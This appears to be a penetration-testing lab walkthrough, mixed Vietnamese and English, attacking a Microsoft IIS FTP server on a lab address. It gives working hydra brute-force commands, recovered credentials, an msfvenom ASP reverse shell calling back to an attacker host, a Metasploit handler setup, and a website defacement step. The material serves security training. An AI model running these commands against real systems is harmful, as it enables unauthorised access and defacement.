



# Targeting Microsoft IIS FTP

`nmap -sV -sC -p21,80 10.2.29.246` # FTP is part of the Microsoft IIS package 

### Thử `anonymous:anonymous` với FTP

`ftp 10.2.29.246`



### Brute-force the FTP server

Brute force với list user và list password

`hydra -L /usr/share/wordlists/metasploit/unix_users.txt -P /usr/share/wordlists/metasploit/unix_passwords.txt 10.2.29.246 ftp`

```
[21][ftp] host: 10.2.29.246   login: administrator   password: vagrant
```



Brute force với user: `vagrant`

`hydra -l vagrant -P /usr/share/wordlists/metasploit/unix_users.txt 10.2.29.246 ftp -I`

```
[21][ftp] host: 10.2.29.246   login: vagrant   password: vagrant
```

Ta có 2 user, bây giờ thử đăng nhập 

`ftp 10.2.29.246` # Use `administrator:vagrant`



`ls`
    229 Entering Extended Passive Mode (|||49567|)
    125 Data connection already open; Transfer starting.
    10-28-21  07:22AM       <DIR>          aspnet_client
    10-28-21  07:19AM                   28 caidao.asp
    10-28-21  07:18AM                34251 hahaha.jpg
    10-28-21  07:18AM              1116928 index.html
    10-28-21  07:18AM              2439511 seven_of_hearts.html
    10-28-21  07:18AM               384916 six_of_diamonds.zip
    10-28-21  07:22AM               184946 welcome.png
    

=> Web server home directory


IIS có thể thực thi `.asp` files

=> Generate an `.asp` hoặc `.aspx` reverse shell payload and upload it with FTP

`cd Desktop/Win2k8/`

`ip -br -c a`
	10.10.24.4/24
	
`msfvenom -p windows/shell/reverse_tcp LHOST=10.10.24.4 LPORT=1234 -f asp > shell.aspx`


`ftp 10.2.29.246` # use `vagrant:vagrant`

`put shell.aspx`

Mở `msfconsole`

`use multi/handler`

`set payload windows/shell/reverse_tcp`

`set LHOST 10.10.24.4`

`set LPORT 1234`

Mở trình duyệt và truy cập vào địa chỉ

10.2.29.246/shell.aspx

Trong trường hợp này, phương pháp này không hiệu quả.

Bước tiếp theo của kẻ tấn công có thể là phá hoại trang web - bằng cách sửa đổi ứng dụng web.


`ftp 10.2.29.246`

`get index.html` # modify the index.html than upload the edited web page

`put index.html`
